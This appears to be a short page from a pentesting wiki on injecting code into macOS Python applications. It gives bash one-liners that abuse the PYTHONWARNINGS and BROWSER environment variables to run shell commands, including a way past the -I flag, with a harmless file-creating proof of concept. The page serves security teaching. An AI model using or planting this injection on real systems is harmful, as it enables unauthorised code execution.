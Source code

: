 # macOS Python Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Via `PYTHONWARNINGS` and `BROWSER` env variables

It's possible to alter both environment variables to execute arbitrary code whenever python is called, for example:

```bash
# Generate example python script
echo "print('hi')" > /tmp/script.py

# RCE which will generate file /tmp/hacktricks
PYTHONWARNINGS="all:0:antigravity.x:0:0" BROWSER="/bin/sh -c 'touch /tmp/hacktricks' #%s" python3 /tmp/script.py

# RCE which will generate file /tmp/hacktricks bypassing "-I" injecting "-W" before the script to execute
BROWSER="/bin/sh -c 'touch /tmp/hacktricks' #%s" python3 -I -W all:0:antigravity.x:0:0 /tmp/script.py
```

{{#include ../../../banners/hacktricks-training.md}}



